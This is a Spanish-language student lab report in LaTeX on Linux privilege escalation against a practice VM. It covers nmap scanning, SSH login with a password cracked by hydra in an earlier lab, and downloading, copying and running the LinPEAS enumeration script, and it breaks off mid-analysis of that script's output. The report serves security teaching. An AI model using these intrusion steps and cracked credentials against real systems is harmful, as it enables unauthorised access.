\documentclass[letterpaper,11pt]{article}

% --- PAQUETES DE IDIOMA
\usepackage[spanish,mexico]{babel}
\usepackage[utf8]{inputenc}
\usepackage{pmboxdraw}
\usepackage{csquotes}
\usepackage{iftex}

\usepackage{pdfpages}

% --- PAQUETES MATEMÁTICOS --
\usepackage{amsmath}
\usepackage{cancel}
\usepackage{mathrsfs}

% --- PAQUETES GRÁFICOS Y DE DISEÑO ---
\usepackage{graphicx}
\usepackage{float}
\usepackage{placeins}
\usepackage{subcaption}
\usepackage[table]{xcolor}
\usepackage{makecell}
\usepackage{array}
\usepackage{tikz}
\usetikzlibrary{shapes.geometric, shapes.multipart, positioning, arrows.meta, calc, shadows, decorations.pathreplacing,babel}

% --- LISTAS ---
\usepackage{enumitem}

% --- PAQUETES DE CÓDIGO ---
\usepackage{listings}
% Configuración del estilo de listings
\definecolor{codebg}{rgb}{0.95,0.95,0.95}   
\definecolor{keyword}{rgb}{0.0,0.2,0.6}     
\definecolor{comment}{rgb}{0.25,0.5,0.35}   
\definecolor{string}{rgb}{0.6,0.0,0.0}      
\definecolor{number}{rgb}{0.5,0.0,0.5}      
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.95}
\definecolor{cmdblue}{RGB}{0, 114, 188}
\definecolor{cmdred}{RGB}{204, 0, 0}       
\definecolor{cmdgreen}{RGB}{13, 165, 13}   
\definecolor{cmdgray}{RGB}{128, 128, 128} 
\definecolor{bgcode}{RGB}{248, 248, 248} 
\definecolor{bgTerminal}{RGB}{30, 30, 30}
\definecolor{textTerminal}{RGB}{230, 230, 230}




\lstset{
  backgroundcolor=\color{backcolour},
  basicstyle=\ttfamily\small,
  keywordstyle=\color{blue}\bfseries,
  stringstyle=\color{codepurple},
  commentstyle=\color{codegray}\itshape,
  numbers=left,
  numberstyle=\tiny\color{codegray},
  frame=single,
  rulecolor=\color{black},
  breaklines=true,
  tabsize=4,
  showstringspaces=false,
  literate={á}{{\'a}}1
           {é}{{\'e}}1
           {í}{{\'i}}1
           {ó}{{\'o}}1
           {ú}{{\'u}}1
           {Á}{{\'A}}1
           {É}{{\'E}}1
           {Í}{{\'I}}1
           {Ó}{{\'O}}1
           {Ú}{{\'U}}1
           {ñ}{{\~n}}1
           {Ñ}{{\~N}}1
           {¿}{{\textquestiondown}}1
           {¡}{{\textexclamdown}}1
}

% Estilo para código en C
\lstdefinestyle{cstyle}{
  language=C,
  backgroundcolor=\color{backcolour},
  basicstyle=\ttfamily\small,
  keywordstyle=\color{blue}\bfseries,
    keywordstyle=[2]\color{yellow!70!orange}\bfseries,
    morekeywords=[2]{MPI_Init,MPI_Comm_size,MPI_Comm_rank,MPI_Send,MPI_Recv,MPI_Scatter,MPI_Gather,MPI_Bcast,MPI_Reduce,MPI_Finalize},
    emph={printf},
    emphstyle=\color{blue}\bfseries,
  stringstyle=\color{codepurple},
  commentstyle=\color{codegray}\itshape,
  numbers=left,
  numberstyle=\tiny\color{codegray},
  frame=single,
  rulecolor=\color{black},
  breaklines=true,
  tabsize=4,
  showstringspaces=false
}

\lstdefinestyle{salidaLinpeas}{
    basicstyle=\ttfamily\scriptsize\color{textTerminal},
    backgroundcolor=\color{bgTerminal},
    breaklines=true,
    breakatwhitespace=true,
    frame=single,
    rulecolor=\color{black!50},
    numbers=none,
    showstringspaces=false,
    tabsize=4,
    xleftmargin=0.5cm,
    xrightmargin=0.5cm,
    extendedchars=false,
    literate={═}{{\textSFxliii}}1
             {║}{{\textSFxxiv}}1
             {╔}{{\textSFxxxix}}1
             {╗}{{\textSFxxv}}1
             {╚}{{\textSFxxxviii}}1
             {╝}{{\textSFxxvi}}1
             {╣}{{\textSFxxiii}}1
}  
\lstdefinestyle{consolaSeguridad}{
    language=bash,
    basicstyle=\ttfamily\footnotesize,
    backgroundcolor=\color{bgcode},
    % Herramientas y comandos de la práctica
    morekeywords={subfinder, make, scp, httpx, hydra, ssh, id, nuclei, dig, whois, grep, awk, sort, cut, sed, tr, nano, wc, head, echo, sudo, nmap, wget, curl, ip},
    keywordstyle=\color{cmdblue}\bfseries,
    % Palabras reservadas de ciclos Bash
    emph={for, in, do, done, while, read},
    emphstyle=\color{cmdred}\bfseries,
    stringstyle=\color{cmdgreen},
    commentstyle=\color{cmdgray}\itshape,
    showstringspaces=false,
    breaklines=true,
    breakatwhitespace=false,
    frame=single,
    rulecolor=\color{black!30},
    numbers=none,
    literate={-}{{\textcolor{black}{-}}}1 % Evita que los guiones de parámetros se coloreen
}

% Definición del lenguaje Python para listings
\lstdefinelanguage[LAB]{Python}{
    morekeywords={False, None, True, and, as, assert, async, await, break,
                                class, continue, def, del, elif, else, except, finally,
                                for, from, global, if, import, in, is, lambda, nonlocal,
                                not, or, pass, raise, return, try, while, with, yield,
                                machine, Pin, PWM, ADC, Timer, sleep_ms, sleep_us},
    morecomment=[l]{\#},
    morestring=[b]",
    morestring=[b]',
    sensitive=true
}

% Definición del lenguaje Makefile para listings
\lstdefinelanguage{Makefile}{
    morekeywords={all, setup, clean, conversion-mod.so, pwnkit},
    morecomment=[l]{\#},
    morestring=[b]',
    morestring=[b]",
    sensitive=true
}

% Estilo para salidas de consola/terminal
\lstdefinestyle{output}{
  backgroundcolor=\color{black!5},
  basicstyle=\ttfamily\footnotesize,
  numbers=none,
  frame=single,
  rulecolor=\color{black!30},
  breaklines=true,
  tabsize=4,
  showstringspaces=false,
  xleftmargin=0.5cm,
  xrightmargin=0.5cm
}

% --- ESTILOS PARA DIAGRAMAS DE FLUJO (TIKZ) ---
\tikzset{
  startstop/.style={rectangle, rounded corners, minimum width=3cm, minimum height=1cm,text centered, draw=black, fill=red!30},
  process/.style={rectangle, minimum width=3cm, minimum height=1cm, text centered, draw=black, fill=orange!30},
  decision/.style={diamond, aspect=2, minimum width=3cm, minimum height=1cm, text centered, draw=black, fill=green!30},
  io/.style={trapezium, trapezium left angle=70, trapezium right angle=110, minimum width=3cm, minimum height=1cm, text centered, draw=black, fill=blue!30},
  arrow/.style={thick,->,>=stealth}
}


\definecolor{azulresultado}{HTML}{0072C6}
\definecolor{rojoacarreo}{HTML}{FF0000}

% --- RUTAS DE IMÁGENES ---
\graphicspath{{img/}{portada_img/}}

\definecolor{armblue}{RGB}{0, 113, 188}

% --- ÍNDICE CON PUNTOS ---
\usepackage{tocloft}
\renewcommand{\cftsecleader}{\cftdotfill{\cftdotsep}}

% --- CONFIGURACIÓN DE PÁGINA (GEOMETRÍA) ---
\usepackage[
    left=25mm, 
    right=25mm,
    top=35mm,
    bottom=30mm,
    headheight=77pt, 
    papersize={21.59cm,27.94cm}
]{geometry}

% --- FORMATO DE TEXTO ---
\usepackage{setspace}
\onehalfspacing
\usepackage{parskip} 
\usepackage{lipsum}  

% --- VARIABLES GLOBALES ---
\newcommand{\materia}{}

% --- ENCABEZADOS Y PIES DE PÁGINA ---
\usepackage{fancyhdr}
\pagestyle{fancy}
\fancyhf{} 
\fancyhead[L]{
\includegraphics[height=1.5cm]{portada_img/der.png}}
\fancyhead[R]{
\includegraphics[height=1.5cm]{portada_img/izq.png}}
\fancyfoot[C]{\thepage} 

\renewcommand{\headrulewidth}{0.4pt} 
\renewcommand{\footrulewidth}{0pt}  

% --- BIBLIOGRAFÍA ---
\usepackage[backend=biber, style=apa, sortcites, url=true]{biblatex}
\addbibresource{referencias.bib}

% --- HIPERVÍNCULOS ---
\usepackage{hyperref}
\hypersetup{
    colorlinks=true,
    linkcolor=blue,
    citecolor=blue,
    filecolor=magenta,
    urlcolor=cyan
}


\fancypagestyle{estiloindice}{
  \fancyhf{} 
  \fancyhead[L]{
\includegraphics[height=1.5cm]{portada_img/der.png}}
  \fancyhead[R]{
\includegraphics[height=1.5cm]{portada_img/izq.png}}
  \renewcommand{\headrulewidth}{0.4pt} 
  \renewcommand{\footrulewidth}{0pt}
}

\begin{document}

\thispagestyle{empty} % Sin encabezado ni pie en la portada

% --- ENCABEZADO DE PORTADA (TABLA DE 3 COLUMNAS) ---
\begin{center}
    % La tabla usa 'm' para centrar verticalmente las imágenes y el texto
    \begin{tabular}{m{0.15\textwidth} m{0.60\textwidth} m{0.15\textwidth}}
        % Logo Izquierdo (UNAM)
        
\includegraphics[width=2cm]{portada_img/der.png} & 
        
        % Título Central
        \centering\Huge\textbf{Universidad Nacional Autónoma de México} &
        
        % Logo Derecho (Facultad)
        \raggedleft
\includegraphics[width=2cm]{portada_img/izq.png}
    \end{tabular}
\end{center}

\vspace{0.3cm}

% --- INFORMACIÓN DEL REPORTE ---
\begin{center}
    {\LARGE \textbf{Facultad de Ingeniería}}\\[1cm]

    {\LARGE \textbf{Alumno:}}\\[0.3cm]
    {\Large Lara Hernandez Angel Husiel - 320060829} \\[1cm]


    {\LARGE \textbf{Seguridad informatica basica}} \\[1cm]

	{\LARGE Semestre: 2027-1} \\[1cm]
    
    {\LARGE \textbf{Practica 4}}\\[0.5cm]

    {\LARGE {Privilege Escalation}}\\[1cm]


    {\Large \textbf{Fecha de Entrega:}}\\[0.2cm]
    {\Large 10 de Octubre del 2026 }
\end{center}

\newpage

{\hypersetup{linkcolor=black}\tableofcontents}
\thispagestyle{estiloindice}


\newpage

\thispagestyle{fancy}
\setcounter{page}{1}
\singlespacing

\section{Desarrollo}

\subsection{Revision de conectividad con web service y Evilbox}

Para revisar cual es la direccion IP de la maquina se web service, primero ponemos el comando:

\begin{lstlisting}[style=consolaSeguridad]
  sudo nmap -sP 192.168.177.0/24
\end{lstlisting}

Esto para poder ver las maquinas estan en nuestro segmento, donde en este caso 
la maquina que nos interea es la que tiene la ip \texttt{192.168.177.129}.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.6\textwidth]{img/image1.png}
    \caption{Escaneo de red para encontrar la IP del web service}
\end{figure}

\subsection{Conexion por ssh a web service}

Para poder conectarnos a la maquina de web service, primero es 
necesario estalecer la conexion ssh, recordado que en las anteriores practicas, el
puerto ssh del este servidor no es el 22, si no que es el puerto 13337, y el usuario es webadmin,
ademas de que con el comando hydra que se ejecuto en la practica anterior, se logro obtener la contraseña 
esta siendo ``toronto''.

\begin{lstlisting}[style=consolaSeguridad]
  ssh webadmin@192.168.177.129 -p 13337
\end{lstlisting}

Despues en la consola solo se pone la contraseña, siendo ``toronto''.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.6\textwidth]{img/image2.png}
  \caption{Conexion por ssh a web service}
\end{figure}

\subsection{Comprobacion del usuario por medio del comando whoami}

Para comprobar que el usuario con el que se esta conectado es el correcto, se puede usar el comando \texttt{whoami}, el cual nos dira el nombre del usuario con el que estamos conectados.

\begin{lstlisting}[style=consolaSeguridad]
  whoami
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.6\textwidth]{img/image3.png}
  \caption{Comprobacion del usuario por medio del comando whoami}
\end{figure}

\subsection{Copiar la herramienta LinPEAS}

Para copiar la herramienta LinPEAS, primero es necesario descargar la herramienta en la maquina atacante,
donde en este caso es necesario usar el comando wget, para esto, el comando completo es el siguiente:

\begin{lstlisting}[style=consolaSeguridad]
  wget https://github.com/peass-ng/PEASS-ng/releases/download/20261003-ea9b2e92/linpeas.sh
\end{lstlisting}

Donde por medio de la consola, se descarga el archivo .sh de 
la herramienta LinPEAS, el cual es necesario para poder hacer la escalacion de privilegios.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.8\textwidth]{img/image4.png}
  \caption{Descarga de la herramienta LinPEAS}
\end{figure}

Despues de esto es necesario copiar el archivo, esto por medio de ssh, donde 
el comando es el siguiente:
\begin{lstlisting}[style=consolaSeguridad]
  scp -P 13337 linpeas.sh webadmin@192.168.177.129:/home/webadmin
\end{lstlisting}

El comando scp es el que se usa para copiar archivos por medio de ssh,
donde en este caso, se esta copiando el archivo linpeas.sh, al directorio 
``/home /webadmin'' de la maquina web service, donde el usuario es webadmin y el puerto es 13337.

Una vez dentro de la maquina servidor lo que hacemos es enlistar los archivos para revisar que se copio correctamente, no 
obstante, es necesario darle permisos de ejecucion al archivo linpeas.sh, esto por medio del comando chmod, el cual es el siguiente:

\begin{lstlisting}[style=consolaSeguridad]
  chmod +x linpeas.sh
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.8\textwidth]{img/image5.png}
  \caption{Dar permisos de ejecucion al archivo linPEAS}
\end{figure}
\subsection{Verificacion de archivo}

Para poder verificar que el archivo es elc orrecto, se usa el comando file, 
el cual nos dira que tipo de archivo es, y si es un archivo ejecutable, el comando es el siguiente:

\begin{lstlisting}[style=consolaSeguridad]
  file linpeas.sh
\end{lstlisting}

\subsection{Ejecucion del archivo linPEAS:}

Para poder ejecutar el comando linPEAS, por medio de la terminal, solo 
es necesario poner el comando siguiente:
\begin{lstlisting}[style=consolaSeguridad]
  ./linpeas.sh
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.6\textwidth]{img/image6.png}
  \caption{Ejecucion del archivo linPEAS}
\end{figure}

\subsection{Analisis de los resultados de linPEAS}

Para esto la parte mas importantes, son las siguientes:

\begin{lstlisting}[style=salidaLinpeas]
                              ╔════════════════════╗
══════════════════════════════╣ System Information ╠══════════════════════════════
                              ╚════════════════════╝
╔══════════╣ Operative system (T1082)
Linux version 3.16.0-6-686-pae (debian-kernel@lists.debian.org) 
Distributor ID: Debian
Description:    Debian GNU/Linux 8.11 (jessie)
Release:        8.11
Codename:       jessie

╔══════════╣ Sudo version (T1548.003,T1068)
sudo Not Found

...

\end{lstlisting}

En este caso nos da la informacion del sistema, ka cual nos dice que es una debian 
que es la 8.11, asi como la version del kernel, la cual la version 
